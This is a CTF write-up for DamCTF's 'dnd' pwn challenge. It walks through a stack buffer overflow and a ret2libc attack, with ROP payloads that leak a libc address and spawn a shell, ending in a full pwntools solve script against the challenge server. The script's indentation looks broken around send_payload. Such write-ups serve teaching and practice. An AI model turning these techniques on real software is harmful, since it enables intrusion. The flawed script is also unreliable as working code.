 ```yaml
---
title: Dam_CTF
published: 2025-08-21
description: A walkthrough for challenge DND from Dam_CTF.
tags: [pwn, writeups, Ret2Libc]
category: Pwn
draft: false
---
```


Mitigations:
```bash
󰣇 dam_ctf/pwn/dnd_chall ❯ file dnd                                                                                                  
dnd: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=44872667ee2a19d1c8f314775e8e3018619c6d9a, for GNU/Linux 3.2.0, not stripped
󰣇 dam_ctf/pwn/dnd_chall ❯ checksec --file=dnd                                                                                       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   209 Symbols	 No	0		1		dnd
```
this is dynamically linked, no canary , no pie but nx is enabled.  

```bash
we got three files
1. dnd - binary file
2. libc.so.6 - libc file
3. ld-linux-x86-64.so.2 - linker file
```

So i thought of performing ret2libc attack , now lets gets started.  

from the decompiled code:  
```cpp
void win(void)

{
  basic_ostream *pbVar1;
  char local_68 [32];
  basic_string local_48 [9];
  allocator local_21;
  allocator *local_20;
  
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "Congratulations! Minstrals will sing of your triumphs for millenia to co me."
                          );
  std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar1,std::endl<>);
  std::operator<<((basic_ostream *)std::cout,"What is your name, fierce warrior? ");
  fgets(local_68,0x100,stdin);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"We will remember you forever, ");
  local_20 = &local_21;
                    /* try { // try from 004028eb to 004028ef has its CatchHandler @ 0040293c */
  std::__cxx11::basic_string<>::basic_string<>((basic_string<> *)local_48,local_68,&local_21);
                    /* try { // try from 004028fa to 0040290b has its CatchHandler @ 00402927 */
  pbVar1 = std::operator<<(pbVar1,local_48);
  std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar1,std::endl<>);
  std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_48);
  std::__new_allocator<char>::~__new_allocator((__new_allocator<char> *)&local_21);
  return;
}
```

we can see that,in the win function there is buffer overflow. so with it we can control instruction execution, to go there we need to attack the monster that is coming on our way , and well we need to die.
just kidding.
after our health reaches below 0 , we can go to win function , and then we can play with the overflow...

then again to perform ret2libc attack , we need to defeat the ASLR , eventhough there is no pie , the libc address are randomised due the ASLR in our system , so some how we need to leak the libc address , then again i thought of leaking the puts address from the GOT entries.

our attack plan:
```
1. go to win function
2. buffer overflow - control ret 
3. leak the libc address and again go to main
4. then call the system with bin/sh.
```
then :
we can find the offset to be 104 with cyclic patterns. 

lets make our first payload,
```python
payload = flat (
	cyclic(offset),
	ret,
	rdi_rbp,
	elf.got['puts'],
	0xdeadbeefdeadbeef,
	elf.plt['puts'],
	elf.sym['main']
)
```
this above payload leaks the libc address of the puts , so we can find the libc address of it.
how does the leak takes place here with the rdi gadget the puts@got is actually as argument for the put@plt , which call puts , it just prints the memory of the address it points to , here we send puts@got , so it will looks like , puts(puts@got) , so it will print the libc address.

to calculate the base address of the libc , we are actually sub the leaked libc with the puts libc offset. since the leaked libc is the puts libc address.
```
libc_base = libc_leak - libc.symbols['puts']
```

after leaking the libc address , we need to calculate the libc base to find the correct address of the system and the /bin/sh , to craft a syscall to get the shell.
second payload :
```python
rdi = 0x000000000010f75b
pop_rdi = libc_base + rdi
payload = flat (
	cyclic(offset),
	ret,
	pop_rdi,
	binsh,
	system
	)
```
this will loads the address of the bin/sh in to rdi and then , make the system to call the shell.

in case of any mistake , do connect in discord: 0xhyder
Solve Script:
```python
from pwn import *

elf = context.binary = ELF('./dnd')
libc = ELF('libc.so.6', checksec=False)
env = None
context.terminal = ['kitty', '-e']

gdbscript = '''
b*main
b*0x000000000040201a
b*0x0000000000402640
c
'''
ld_path = './ld-linux-x86-64.so.2'
libc_path = './libc.so.6'
argv = [ld_path, '--library-path', '.', elf.path]

if args.REMOTE:
	p = remote('dnd.chals.damctf.xyz',30813)
elif args.GDB:
	p = gdb.debug(argv, gdbscript=gdbscript, env=env)
else:
	p = process(argv, env=env)

def handle_attack_or_run():
	try:
		while True:
			line = p.recv(1024) # Adjust size as needed
			log.info(f"Received: {line.strip()}")
			if b'[a]ttack or [r]un' in line:
				p.sendline(b'a')
			elif b'fierce warrior' in line:
				log.success("Reached payload prompt!")
				break
			elif b'You lost!' in line:
				log.warning('Completed all five rounds.')
	except EOFError:
		log.error("EOF received. The process might have crashed.")
		p.close()
		exit()
	except Exception as e:
		log.error(f"Unexpected error: {e}")
		p.close()
		exit()
  
def send_payload():
	payload = flat (
	cyclic(offset),
	ret,
	rdi_rbp,
	elf.got['puts'],
	0xdeadbeefdeadbeef,
	elf.plt['puts'],
	elf.sym['main']
)
p.sendline(payload)

# ======================= Stage 1: Leak =======================
handle_attack_or_run()

ret = 0x000000000040201a
rdi_rbp = 0x0000000000402640
offset = 104

send_payload()
p.recvuntil(b'forever,')
leaked_line = p.recvuntil(b'#').strip()
leak = leaked_line[0x27:0x27+6]
libc_leak = u64(leak.ljust(8, b'\x00'))
log.success(f"[*] Leaked libc address: {hex(libc_leak)}")
libc_base = libc_leak - libc.symbols['puts']
log.success(f"[*] base libc address: {hex(libc_base)}")
binsh = next(libc.search(b'/bin/sh')) + libc_base
system = libc.symbols['system'] + libc_base
log.success(f"[*] binsh libc address: {hex(binsh)}")
log.success(f"[*] system libc address: {hex(system)}")

# ======================= Stage 2: Exploit=======================
handle_attack_or_run()

rdi = 0x000000000010f75b
pop_rdi = libc_base + rdi
payload = flat (
	cyclic(offset),
	ret,
	pop_rdi,
	binsh,
	system
)
p.sendline(payload)

p.interactive()
```
